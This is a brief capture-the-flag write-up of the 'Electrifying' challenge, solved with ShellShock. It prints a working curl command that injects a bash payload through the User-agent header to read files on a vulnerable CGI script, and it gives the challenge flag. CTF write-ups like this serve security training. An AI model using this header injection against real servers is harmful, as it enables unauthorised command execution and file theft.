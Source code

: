 # Electrifying
**Category:** Medium
**Points:** 400
**Solves:** 23
**Description:**

>We have been given access to a script snippet that is vurlnerable. Can you exploit it and find the flag?
>
>Flag is in format: CT##-####-#####-####
>
>You can access the site from [here](http://ctfp.ee:11111/unsafe.cgi)

# Write-up
by BubblyPen

In this challange you have to get the flag via ShellShock.

Searching for *bash cgi vulns*, you can find a lot of ShellShock exploits. I found [this](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) link very useful.

By using this command you will get the flag:

```bash
curl -H "User-agent: () { :;}; echo; /bin/cat ../j*" http://ctfp.ee:11111/unsafe.cgi
```

***Flag:*** CT20-Sh3l-lSh0c-k3d!
